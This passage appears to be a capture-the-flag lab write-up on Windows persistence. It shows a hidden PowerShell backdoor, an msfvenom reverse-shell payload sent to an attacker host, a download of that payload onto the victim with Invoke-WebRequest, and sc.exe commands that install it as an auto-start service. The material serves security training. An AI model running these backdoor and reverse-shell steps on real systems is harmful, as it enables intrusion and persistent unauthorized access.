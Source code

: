 Change the value of the data to 
```bash
powershell -windowstyle hidden C:\windows\backdoor2.ps1
```
Start nc listener on attacker's machine by ```nc -lvp 4448```
We should get the flag
```bash
C:\Windows\system32>C:\flags\flag6.exe
C:\flags\flag6.exe
THM{REDACTED!!!}
```
Q2. 

<img width="637" height="104" alt="Screenshot 2025-10-21 at 4 24 54 in the afternoon" src="https://github.com/user-attachments/assets/e90587e8-b34e-4cb7-831d-6ae348a0f0b0" />

---

## Abusing Services

Windows services offer a great way to establish persistence since they can be configured to run in the background whenever the victim machine is started.

### Creating backdoor services

On your attacker's machine, generate backdoor payload:
```bash
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4448 -f exe-service -o rev-svc.exe
```
As well as starting a netcat listener on port ```4448```

Transfer the ```rev-svc.exe``` to the victim's machine, I did this by serving up a simple HTTP server
```bash
python3 -m http.server 8000 --bind 0.0.0.0
```

On Windows Powershell run the following command, this should get the ```rev-svc.exe``` file:
```bash
Invoke-WebRequest -Uri "http://10.201.84.210:8000/rev-svc.exe" -OutFile "C:\Windows\rev-svc.exe"
```
Continuing on Windows Powershell:
```bash
sc.exe create THMservice2 binPath= "C:\windows\rev-svc.exe" start= auto
sc.exe start THMservice2
```

Doing this should get you a connection on the attacker's machine.
```bash
C:\Windows\system32>C:\flags\flag7.exe
C:\flags\flag7.exe
THM{REDACTED!!!}
```
Q1. 

<img width="637" height="104" alt="Screenshot 2025-10-21 at 4 24 54 in the afternoon" src="https://github.com/user-attachments/assets/2b416a98-9d49-4d54-98fd-06ec34e5af2b" />
